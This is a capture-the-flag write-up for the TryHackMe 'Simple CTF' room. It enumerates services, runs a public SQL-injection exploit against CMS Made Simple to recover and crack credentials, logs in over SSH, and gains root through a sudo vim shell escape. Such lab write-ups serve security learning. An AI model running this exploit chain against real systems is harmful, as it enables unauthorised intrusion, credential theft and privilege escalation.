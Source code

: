 # Simple CTF (THM)

- https://tryhackme.com/room/easyctf
- Feb 27, 2023
- easy

---

## Enumeration (nmap)

- ftp - vsftpd 3.0.3
  - Anonymous FTP login allowed
- http - Apache httpd 2.4.18 ((Ubuntu))
- ssh (2222) - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

### http

- robots.txt

```
User-agent: *
Disallow: /
Disallow: /openemr-5_0_1_3
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
```

- directory (ffuf)

```
simple
```

- found page cms made simple. (version 2.2.8)

### Vuln

- Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9

```sh
searchsploit cms made simple
searchsploit -m php/webapps/46635.py
python2 46635.py http://10.10.33.97/simple/
```

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

- https://www.dcode.fr/md5-hash
- password - `secret`

- with this credential enter ssh

```sh
ssh mitch@$IP -p 2222
```

- sudo -l

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

- get root access

```sh
sudo vim -c ':!/bin/sh'
```
